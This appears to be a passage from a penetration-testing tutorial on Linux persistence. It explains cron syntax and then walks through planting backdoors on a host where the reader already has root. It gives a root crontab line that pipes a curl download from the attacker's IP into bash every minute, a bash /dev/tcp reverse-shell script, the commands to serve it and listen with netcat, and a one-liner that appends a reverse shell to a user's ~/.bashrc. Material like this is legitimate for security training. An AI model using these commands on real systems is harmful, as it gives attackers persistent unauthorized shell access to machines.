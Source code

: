 ![](Pasted%20image%2020240528110656.png)

This represents all the tasks that are scheduled to run at some time on your machine.

Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.

Notice the 2 letters on top of the tasks : `m` and `h` 

Those are the letters that indicate if the task should run every **hour** or every **minute**.

In the example above, you can see that there is a `*` symbol under the `h`. This means that the following task would run every hour.

Now let's get to our backdoor!

Add this line into our cronjob file :

```shell
* *     * * *   root    curl http://<YOUR_IP>:YOUR_PORT/shell.sh | bash
# YOUR_PORT usually is 8080
```

Notice that we put a `*` star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use `curl` to download a file , and then we pipe it to `bash`

The contents of the "shell" file that we are using are simply :

```sh
#!/bin/bash

bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
```

We would have to run an HTTP server serving our shell.

You can achieve this by running : `python3 -m http.server PORT`

Once our shell gets downloaded, it will be executed by `bash` and we would get a shell!

*Don't forget to listen on your specified port with `nc -nvlp <port>`*  

>[!Note]
>Please note that this backdoor isn't really hidden because everyone can see it just by looking inside `/etc/crontab`.

## .bashrc Backdoors

If a user has bash as their login shell, the `.bashrc` file in their home directory is executed when an interactive session is launched.

So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their `.bashrc`.

```shell
echo 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1' >> ~/.bashrc
```
